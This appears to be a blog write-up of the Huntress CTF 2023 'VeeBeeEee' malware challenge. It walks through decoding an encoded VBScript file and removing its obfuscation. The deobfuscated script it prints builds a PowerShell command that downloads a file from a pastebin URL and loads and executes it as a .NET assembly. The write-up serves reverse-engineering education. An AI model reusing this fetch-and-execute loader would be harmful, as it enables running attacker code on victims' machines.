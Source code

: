```yaml
---
title: "VeeBeeEee"
date: 2023-10-11T13:11:20-10:01
#draft: true
tags: ['CTF','Writeups', 'Malware', 'Easy']
---
```

 
# [Home](https://jjolley91.github.io/blog/) >

###  [Huntress CTF](https://jjolley91.github.io/blog/huntress_ctf_2023) >  [Easy Challenges](https://jjolley91.github.io/blog/huntress_ctf_2023/1.easy/)

## [Back](https://jjolley91.github.io/blog/huntress_ctf_2023/1.easy/baking)  <> [Next](https://jjolley91.github.io/blog/huntress_ctf_2023/1.easy/snake_eater) 

### While investigating a host, we found this strange file attached to a scheduled task. It was invoked with wscript or something... can you find a flag? 

For this challenge we are given a 'VeeBeeEee' file to download.

As the name of this challenge suggests, the file is a .vbe. A VBE (Visual Basic Script Encoded) file is a file format used for Visual Basic Script (VBS) code that has been encoded for security or obfuscation purposes. VBE files are typically created by encoding the original VBS script to make it less human-readable and harder to reverse engineer. This encoding is done for various reasons, including protecting intellectual property, hiding sensitive information, or preventing unauthorized access to the script.

We found a handy online tool [Here](https://master.ayra.ch/vbs/vbs.aspx) where we were able to upload the vbe, and download the decoded .vbs script.  

We also found a VERY nifty python version, created by John Hammond [here](https://github.com/JohnHammond/vbe-decoder)

### John Hammond, Creating the problem so he can sell you the cure

It wasn't quite that easy, however, as the resulting script was further obfuscated with commented strings, and other techniques to hide the functionality. We worked on this in sublimetext however, so we began by using find/replace to remove all the commented out strings which were thankfully all the same.
#### Remove:

```text
''''''''''''''''al37ysoeopm'al37ysoeopm
```
 
That cleaned things up a bit, We then noticed a variable 'Code' at the bottom, which seemed to be replacing all of the '&'s, which we did next.

Now it is finally easier to recognize what the code is doing, as we are left with:
```powershell
Power0 = "Po"
Power1 = "we"
Power2 = "rS"
Power3 = "he"
Power4 = "ll"
Power5 = " "
Power = Power0 + Power1 + Power2 + Power3 + Power4 + Power5

Path0 = "$f='C"
Path1 = ":\Users" 
Path2 = "\Public"
Path3 = "\Docume" 
Path4 = "nts\July"
Path5 = ".htm';"
Path   = Path0 + Path1 + Path2 + Path3 + Path4 + Path5

Reqest0 = "if (!(Test-Path $f)){Invoke-WebRequest '"
Reqest1 = "https://past"
Reqest2 = "ebin.com/raw"
Reqest3 = "/SiYGwwcz"
Reqest4 = "' -ou"
Reqest5 = "tfile $f  };"
Reqest = Reqest0 + Reqest1 + Reqest2 +  Reqest3 + Reqest4 + Reqest5
PathString = SObject.NameSpace(7).Self.Path  "/"  WScript.ScriptName
InvokeReqest0 = "[System."
InvokeReqest1 = "Reflecti"
InvokeReqest2 = "on.Assembl"
InvokeReqest3 = "y]::loadf" 
InvokeReqest4 = "ile($"
InvokeReqest5 = "f);"
InvokeReqest = InvokeReqest0 + InvokeReqest1 + InvokeReqest2 + InvokeReqest3 + InvokeReqest4 + InvokeReqest5

ExecAssem0 = "[Work"
ExecAssem1 = "Area."
ExecAssem2 = "Work"
ExecAssem3 = "]:"
ExecAssem4 = ":Ex" 
ExecAssem5 = "e()"
ExecAssem   = ExecAssem0 + ExecAssem1 + ExecAssem2 + ExecAssem3 + ExecAssem4 + ExecAssem5
```
This appears to be using VBS to execute Powershell commands, from this the 'Request'section stands out as it seems to be using Invoke-WebRequest to reach out to a URL.  

We concatenated the url, and used curl to obtain the flag!

![vbe](https://github.com/jjolley91/blog/blob/main/static/Huntress_CTF_2023/vbe.png?raw=true)

## [Back](https://jjolley91.github.io/blog/huntress_ctf_2023/1.easy/baking)  <> [Next](https://jjolley91.github.io/blog/huntress_ctf_2023/1.easy/snake_eater) 